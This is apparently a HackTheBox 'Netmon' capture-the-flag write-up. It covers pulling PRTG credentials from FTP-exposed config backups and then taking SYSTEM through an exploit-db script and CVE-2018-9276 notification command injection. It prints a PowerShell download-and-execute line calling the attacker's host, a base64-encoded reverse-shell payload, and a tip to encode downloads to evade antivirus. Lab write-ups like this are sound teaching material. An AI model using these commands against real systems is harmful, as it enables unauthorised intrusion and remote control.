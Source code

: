 # HackTheBox - Netmon

### What I Learned

1. You can grep before and after the lines where the search term is found
2. Nishang shells are excellent pre-built shells for red teaming
3. Use base 64 encoding of downloading shells to get past AV

<details>
  <summary><strong>Writeup Summary</strong></summary>
  Scan the machine and find an FTP process running and access it on port 21. Find the netmon config files are located and find a network monitor file. Search the backup config file and find a user/pass combo. It doesen't work but ends in 2018, so try bumping it up to 2019 and it does work. Use it to login to the prtg network admin console.

There are 2 ways to get root from here.

1. Use an exploit from exploitdb to get a root shell
2. Use the notification exploit. Create a reverse shell using msfvenom. Base64 encode the command to upload the PRTG notification command. Take the base64 string and run it through the parameter on the notification. Run the downloaded file and get a reverse shell.

</details>
<br>

## Writeup

Nmap scan

- `nmap -sV -sC -sT -vv -oA nmap/scan 10.129.230.176`

Find FTP system process running on port 21 with anonymous login allowed
Find Netmon running on port 80

Access the FTP port using

- `ftp anonymous@<IP_ADDR>`

Search for windows LFI files for interesting file

Find where the default Netmon configuration files are located
Find them in the /Windows directory
Download the PRTG Configuration.dat file

- Only available through ftp port
- Get PRTG Configuration.dat

Look for the data directory file for the Network monitor

- https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data
- `cd ProgramData\Paessler\PRTG Network Monitor`

  Download the configuration files using "get PRTG Configuration.dat"

Read the lines of the massive file that contain the word "user"

- `grep -i user PRTG\ Configuration.dat | sed 's/ //g/'|sort -u`

Then look at the lines 5 before and after the word "password" using

- `grep -B5 -A5 -i user PRTG\ Configuration.dat | sed 's/ //g/'|sort -u`

Try the same on the old configuration files and find something

- `grep -B5 -A5 -i user PRTG\ Configuration.old.bak | sed 's/ //g/'|sort -u`

Look a the file using less and find old login information

- less PRTG\ FILENAME.BLAH
- Search for keywords using
  - `/<SEARCHTERM>`

Use the default admin credentials to login to the website - FAILS

Try using smb to login to the machine

- `smbmap -u <USER> -p '<PASS>' -d netmon -H <IP_ADDR>`

Didn't work, so since the password from the backup file was from 2018, try incrementing the year
This is a weird way to do the password. I never would have thought of it unless I had looked it up

- `prtgadmin`
- `PrTg@dmin2018 ----> PrTg@dmin2019`

Now you have access to the console

Find Probe Access key

- F450351E-2115-4B41-80E2-44CB785D4428
  Currently Installed version
- `18.1.37.13946`

Check searchsploit, but there is only one vuln for this version and it is DOS, so not what we want
Then check google, search "CVE prtg network monitor"

- https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=prtg
  - https://www.cve.org/CVERecord?id=CVE-2018-9276

---

First way to get a shell

Use exploitdb to find an exploit that works against the version of PRTG System Administrator

- searchsploit 46527

Run the shell file against the machine to get a new user created

- `Pentest:P3nT3st!`

Then use psexec to login as the created user as a system user

- `impacket-psexec pentest@10.129.230.176`

---

Second way to get a shell

Test ping using the notification exploit
Set the Parameter to

- `test | ping -n 1 <KALI_IP>`

Listen for the ping on Kali using

- `tcpdump -i tun0 icmp`

You have programs that execute, so it works.

Create a reverse shell file in the directory and serve it with Python

- `cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .`
- `cp ./Invoke-PowerShellTcp.ps1 revsh.ps1`
  - Then change the IP address for the reverse shell

Base64 encode the command for the upload in the PRTG notification command

- `echo -n "IEX(new-object net.webclient).downloadstring('http://10.10.14.209:8000/revsh.ps1')" | iconv -t UTF-16LE | base64 -w0`

Then in the parameter function on the webpage, put the command

- `test | IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.209:8000/reverse.ps1')`

Setup a python server to serve the file
Setup a netcat listener on port 8787

Run the command through the parameter on the notification

- `abc.txt | powershell -enc SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMAA5ADoAOAAwADAAMAAvAHIAZQB2AHMAaAAuAHAAcwAxACcAKQA=`

Now you have a system shell

